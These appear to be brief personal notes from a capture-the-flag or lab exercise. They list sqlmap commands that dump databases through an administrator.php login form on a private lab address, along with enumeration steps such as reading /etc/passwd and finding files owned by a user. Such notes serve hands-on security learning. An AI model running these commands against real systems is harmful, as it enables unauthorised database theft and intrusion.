 sqlmap -u url --forms
sqlmap -u http://10.10.33.24/administrator.php --dump --data="username=admin&password=admin"  -> to get the data from the dbs

--dbs -> to get info about databases
-D databasename --tables -> to get tables in that database
-D databasename -T tablename --dump -> dump data from the table

check /etc/passwd to check whether there are accounts 

cd /
find / -user pingu 2>/dev/null

